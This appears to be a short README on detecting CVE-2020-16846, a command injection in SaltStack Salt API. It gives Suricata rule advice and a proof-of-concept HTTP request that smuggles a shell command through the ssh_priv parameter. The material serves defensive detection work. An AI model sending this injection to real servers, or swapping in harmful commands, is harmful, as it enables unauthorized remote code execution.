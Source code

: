 ## Overview
CVE-2020-16846 is an unauthenticated shell command injection on SaltStack Salt. It affects the Salt Master with Salt API installed. Attackers could insert command directly in the **ssh_priv** parameter.  

In the default configuration, the Salt API listens on port 8000/TCP. If you cannot be sure there are no other ports configured, you could use any **any any -> any any** instead of **any any -> any 8000** in the Suricata rule.  

Because of many special characters that attackers can use to insert to the shell command, I try to detect the space (**%20** if URL encoded) in the **ssh_priv** parameter's value instead. In a real life attack, hackers definitely use at least one space in the command they want to execute on the victim server (except whoami, id,...).

## Proof of Concept
```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0
Accept: application/x-yaml
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=pyn3rd&fun=a&roster=qwe&ssh_priv=aaa%26%20open%20-a%20Calculator
```

## References
* https://twitter.com/pyn3rd/status/1327070000964780033
* https://github.com/saltstack/salt/commit/023528b3b1b108982989c4872c138d1796821752#diff-2b0018ba85b85d07125591f26aa82ce3f90bbaff1fe966aa83b3ac1113396a3e